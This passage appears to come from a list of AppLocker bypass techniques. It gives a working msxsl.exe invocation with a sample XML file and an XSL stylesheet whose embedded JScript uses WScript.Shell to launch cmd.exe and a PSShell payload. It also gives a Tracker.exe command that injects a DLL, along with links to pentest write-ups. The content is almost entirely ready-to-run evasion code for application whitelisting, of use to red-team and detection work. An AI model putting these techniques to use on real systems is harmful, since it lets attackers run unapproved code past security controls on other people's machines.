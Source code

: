 Code

``` stylus
msxsl.exe customers.xml script.xsl
```



customers.xml
``` stylus
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="script.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```



``` stylus
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /k C:\\PSShell.exe");
   return nodelist.nextNode().xml;
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

Link:  

https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/


https://evi1cg.me/archives/AppLocker_Bypass_MSXSL.html




## 10.Tracker 

``` stylus
Tracker.exe /d runcalc.dll /c cmd
```


link 

https://twitter.com/Sudhanshu_C/status/943011972261412864
